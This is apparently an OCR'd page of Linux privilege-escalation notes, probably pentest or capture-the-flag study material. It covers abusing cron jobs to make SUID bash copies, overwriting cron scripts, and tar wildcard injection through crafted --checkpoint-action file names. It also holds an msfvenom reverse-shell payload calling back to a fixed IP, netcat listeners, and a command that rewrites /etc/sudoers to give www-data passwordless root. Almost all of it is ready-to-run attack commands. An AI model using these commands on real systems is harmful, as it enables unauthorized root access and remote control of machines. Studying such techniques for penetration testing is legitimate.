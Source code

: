```bash
nc -lvnp 4444
```

##### Rootbash
- Locate PATH  
- Create an imitating file with :
```bash
#!/bin/bash
cp /bin/bash /tmp/rootbash
```
Make it executable
```bash
chmod +xs /tmp/rootbash
chmod +x /path/filename.sh
```
Wait for the cron job executing
```bash
/tmp/rootbash -p
```
##### Overwriting crons
```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> /usr/local/bin/overwrite.sh
```
Wait till it executes `/tmp/bash -p`

### TAR command
This can happened when a cron is running `tar -some-tags *`  (directly or indirectly)
**Please denote the star**
In this case, file names are understood as real `tar` tags

***Note that backup script are often scheduled in crontab***

Let's create a reverse shell
1. We create the executable file

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.8.14.34 LPORT=444 -f elf -o shell.elf
chmod +x /tmp/shell.elf
```

2. Let's create `tar` tags

```bash
touch /tmp/--checkpoint=1
touch /tmp/--checkpoint-action=exec=shell.elf
```

3. We listen
```bash
nc -nvlp 4444
```
### Other privesc example (sudo)
```bash
echo 'echo "www-data ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > privesc.sh
echo "foo"  > "--checkpoint-action=exec=sh privesc.sh"
echo "foo"  > --checkpoint=1
```
### Other privesc example (rootbash)
```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/runme.sh
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=sh\ runme.sh
```

